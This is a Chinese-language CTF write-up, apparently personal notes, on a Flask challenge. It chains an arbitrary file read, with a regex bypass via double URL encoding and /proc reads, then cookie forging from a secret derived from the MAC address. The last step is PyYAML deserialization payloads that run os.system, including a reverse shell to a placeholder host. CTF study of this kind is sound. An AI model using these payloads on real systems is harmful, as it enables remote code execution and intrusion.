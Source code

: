 tags:: CTF/Python/YAML, CTF/伪协议

- # 任意文件读取
	- 读取/proc/self/cmdline得知源码在/app/app.py
	- 使用双写构造payload绕过正则读取源文件：``GET /read?url=file:///proc/self/root/%25%36%31pp/%25%36%31pp.py HTTP/1.1``
- # Cookie伪造
	- 读MAC
		- ```python
		  r = base_get(url + "/read", params = {
		      "url": "file:///sys/class/net/eth0/address"
		  }, acceptable_code=None, timeout = 10)
		  mac = "".join(r.text.split(":"))
		  int(mac, 16)
		  # 2485376910098
		  ```
	- 算secret
		- ```python
		  random.seed(2485376910098)
		  str(random.random()*233)
		  # 169.37847730221344
		  ```
	- 拿到secret用[[CTF/Flask-Unsign]]解密即可
- # YAML反序列化
	- ```python
	  file_content = """\
	  !!python/object/new:tuple
	  - !!python/object/new:map
	    - !!python/name:eval
	    - [ "__import__('os').system('{}')" ]
	  """.format(generate_reverse_shell_payload("xxx.com", 3001))
	  
	  r = base_post(url + "/upload", files = {
	      "file": ("a.txt", file_content)
	  })
	  
	  ```
	- 也可以用
		- ```python
		  file_content = """\
		  !!python/object/new:str
		    args: []
		    state: !!python/tuple
		      - "__import__('os').system('{}')"
		      - !!python/object/new:staticmethod
		        args: []
		        state:
		          update: !!python/name:eval
		          items: !!python/name:list
		  """.format(
		    # generate_reverse_shell_payload("xxx.com", 3001)
		    "sleep 5"
		  )
		  
		  r = base_post(url + "/upload", files = {
		      "file": ("a.txt", file_content)
		  })
		  
		  ```